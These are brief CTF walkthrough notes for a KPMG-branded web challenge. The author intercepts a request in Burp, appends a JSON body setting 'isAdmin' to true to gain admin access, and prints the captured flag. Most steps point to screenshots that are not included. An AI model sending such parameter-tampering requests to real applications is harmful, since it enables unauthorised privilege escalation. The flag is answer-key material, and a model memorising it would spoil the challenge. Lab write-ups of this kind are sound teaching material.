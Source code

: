 

Deploy instance
open burp browser
![[Pasted image 20240811011518.png]]

![[Pasted image 20240811011537.png]]

![[Pasted image 20240811011658.png]]



edit the fllowing
append
Content-Type: application/json

Content-Length: 23



{

	"isAdmin":true

}


![[Pasted image 20240811011945.png]]
the flag is 
```
KPMG_CTF{nlllcK2N1fFqx-r7DRqVbhJa4AYvhifzRGE3Y5SeKP0UDlo_EgpkFO_1Akb-H_96vqOksOvJB-ghiDpALOyaPdlUP1WL56bkakHLL7vV}

```